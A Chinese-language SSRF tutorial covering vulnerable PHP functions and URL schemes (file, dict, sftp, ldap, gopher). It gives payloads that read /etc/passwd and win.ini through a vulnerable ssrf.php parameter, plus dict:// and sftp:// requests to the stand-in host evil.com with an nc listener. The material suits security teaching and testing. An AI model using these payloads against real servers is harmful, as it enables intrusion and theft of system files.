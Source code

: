 简单来说：所有目标服务器会从自身发起请求的功能点，且我们可以控制地址的参数，都可能造成SSRF漏洞



# 产生SSRF漏洞的函数

**1、file_get_contents:**



**2、sockopen():**



**3、curl_exec():**



# SSRF中url的伪协议

**当我们发现SSRF漏洞后，首先要做的事情就是测试所有可用的URL伪协议**

file:/// 从文件系统中获取文件内容，如，file:///etc/passwd
dict:// 字典服务器协议，访问字典资源，如，dict:///ip:6739/info：
sftp:// SSH文件传输协议或安全文件传输协议
ldap:// 轻量级目录访问协议
tftp:// 简单文件传输协议
gopher:// 分布式文档传递服务，可使用gopherus生成payload
1、file

这种URL Schema可以尝试从文件系统中获取文件：

`http://example.com/ssrf.php?url=file:///etc/passwdhttp://example.com/ssrf.php?url=file:///C:/Windows/win.ini`

如果该服务器阻止对外部站点发送HTTP请求，或启用了白名单防护机制，只需使用如下所示的URL Schema就可以绕过这些限制：

2、dict

这种URL Scheme能够引用允许通过DICT协议使用的定义或单词列表：

`http://example.com/ssrf.php?dict://evil.com:1337/`
`evil.com:$ nc -lvp 1337`
`Connection from [192.168.0.12] port 1337[tcp/*]`
`accepted (family 2, sport 31126)CLIENT libcurl 7.40.0`

3、sftp

在这里，Sftp代表SSH文件传输协议（SSH File Transfer Protocol），或安全文件传输协议（Secure File Transfer Protocol），这是一种与SSH打包在一起的单独协议，它运行在安全连接上，并以类似的方式进行工作。

`http://example.com/ssrf.php?url=sftp://evil.com:1337/
evil.com:$ nc -lvp 1337`
`Connection from [192.168.0.12] port 1337[tcp/*]`
`accepted (family 2, sport 37146)SSH-2.0-libssh2_1.4.2`

4、ldap://或ldaps:// 或ldapi://

LDAP代表轻量级目录访问协议。它是IP网络上的一种用于管理和访问分布式目录信息服务的应用程序协议。
